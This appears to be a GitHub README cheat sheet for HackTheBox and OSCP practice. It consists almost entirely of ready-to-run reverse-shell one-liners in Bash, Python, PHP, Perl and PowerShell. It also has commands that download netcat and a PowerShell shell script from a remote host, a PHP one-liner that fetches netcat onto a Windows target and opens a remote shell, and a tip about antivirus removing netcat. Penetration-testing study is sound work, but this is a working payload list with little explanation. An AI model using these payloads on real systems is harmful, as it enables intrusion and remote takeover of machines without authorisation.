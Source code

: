 # HackTheBox
For OSCP preparation!

## CheatSheet
* [Reverse shell](#Reverse)

### Bash

```bash
bash -i >& /dev/tcp/{IP}}/{PORT}} 0>&1
sh -i >& /dev/udp/{IP}/{PORT}} 0>&1

0<&196;exec 196<>/dev/tcp/<your IP>/<same unfiltered port>; sh <&196 >&196 2>&196
```

### Python

```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### php
```PHP
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Powershell

```Powershell
Create shell.ps1

$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Useful-GOTO LIST


**One Liner Download file with powershell**
```Download File -Powershell
cmd.exe> powershell IWR http://10.12.12.12/nc.exe -outfile \\PATH\\nc.exe

PS> Invoke-WebRequest http://10.10.15.15/shell.ps1 -OutFile c:\shell.ps1
```
**One liner PHP Reverse shell when Target machine is Windows**
```

<?= system("powershell IWR http://10.12.12.12/nc.exe -outfile \\windows\\temp\\nc.exe; \\windows\\temp\\nc.exe 10.12.12.12 4444 -e powershell.exe 2>&1") ?>

Start Listerner > nc -lvnp 4444
If reverse shell does not connect -Verify if target machine has AV as it may delete the netcat.
```
